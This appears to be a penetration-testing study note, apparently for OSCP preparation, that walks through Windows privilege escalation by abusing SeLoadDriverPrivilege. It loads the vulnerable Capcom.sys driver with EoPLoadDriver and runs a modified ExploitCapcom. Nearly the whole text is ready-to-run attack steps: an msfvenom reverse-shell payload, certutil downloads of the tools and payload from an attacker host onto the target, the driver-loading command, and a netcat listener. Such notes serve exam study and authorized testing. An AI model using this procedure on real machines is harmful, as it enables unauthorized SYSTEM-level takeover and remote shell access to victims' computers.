 version < Windows 10 20H2 (Build 19042)

reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f exe -o rev.exe
```

download Capcom.sys

```
https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
```

download eoploaddriver.cpp and compile

```
https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp
```

create a new project (Visual Studio 2022 Community Edition)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_1.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_2.png)

change project name ```eoploaddriver```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_3.png)

copy and paste the contents of the ```eoploaddriver.cpp``` file and comment out line 6 ```#include "stdafx.h"```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_4.png)

configure project to target platforms

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_5.png)

build project

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_6.png)

executable file default location

```
C:\Users\<user>\source\repos\eoploaddriver\x64\Release
```

download ExploitCapcom project and compile

```
https://github.com/tandasat/ExploitCapcom
```

Execute original file will pop up an additional window. The code must be modified to run the reverse shell payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_7.png)


upload the files we need on the target

```
certutil -urlcache -split -f "http://<attcker ip>/Capcom.sys" "C:\Windows\Temp\Capcom.sys"
certutil -urlcache -split -f "http://<attcker ip>/eoploaddriver.exe" "C:\Windows\Temp\eoploaddriver.exe"
certutil -urlcache -split -f "http://<attcker ip>/ExploitCapcom.exe" "C:\Windows\Temp\ExploitCapcom.exe"
certutil -urlcache -split -f "http://<attcker ip>/rev.exe" "C:\Windows\Temp\rev.exe"
```

execute the ```eoploaddriver.exe``` on the target (Note that Capcom.sys must specify the full path)

```
C:\Windows\Temp\eoploaddriver.exe System\CurrentControlSet\dfserv C:\Windows\Temp\Capcom.sys
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_8.png)

start listening

```
sudo nc -nlvp 80
```

execute the ```ExploitCapcom.exe``` 

```
C:\Windows\Temp\ExploitCapcom.exe
```

![iamge](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_9.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_10.png)